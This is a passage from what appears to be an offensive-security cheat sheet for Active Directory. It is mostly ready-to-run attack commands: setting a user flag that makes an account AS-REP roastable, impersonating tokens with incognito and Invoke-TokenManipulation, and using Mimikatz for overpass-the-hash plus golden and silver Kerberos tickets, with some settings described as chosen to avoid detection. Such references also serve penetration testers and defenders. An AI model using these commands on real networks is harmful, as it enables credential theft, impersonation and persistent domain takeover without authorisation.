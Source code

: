 ```
Set-DomainObject -Identity Control355User -XOR @{useraccountcontrol=4194304} 
```

### Token Manipulation

Tokens can be impersonated from other users with a session/running processes on the machine. A similar effect can be achieved by using e.g. CobaltStrike to inject into said processes.

#### Incognito

```
# Show tokens on the machine
.\incognito.exe list_tokens -u

# Start new process with token of a specific user
.\incognito.exe execute -c "domain\user" C:\Windows\system32\calc.exe 
```

> If you’re using Meterpreter, you can use the built-in Incognito module with `use incognito`, the same commands are available.

#### Invoke-TokenManipulation

```
# Show all tokens on the machine
Invoke-TokenManipulation -ShowAll

# Show only unique, usable tokens on the machine
Invoke-TokenManipulation -Enumerate

# Start new process with token of a specific user
Invoke-TokenManipulation -ImpersonateUser -Username "domain\user"

# Start new process with token of another process
Invoke-TokenManipulation -CreateProcess "C:\Windows\system32\calc.exe" -ProcessId 500 
```

### Mimikatz

```
# Overpass the hash
sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:[NTLMHASH] /run:powershell.exe

# Golden ticket (domain admin, w/ some ticket properties to avoid detection)
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-[DOMAINSID] /krbtgt:[KRBTGTHASH] /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt

# Silver ticket for a specific SPN with a compromised service / machine account
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-[DOMAINSID] /rc4:[MACHINEACCOUNTHASH] /target:dc.domain.local /service:HOST /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt 
```

> A list of available SPNs for silver tickets can be found [here](https://adsecurity.org/?page_id=183). Another nice overview for SPNs relevant for offensive is provided [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#pass-the-ticket-silver-tickets).
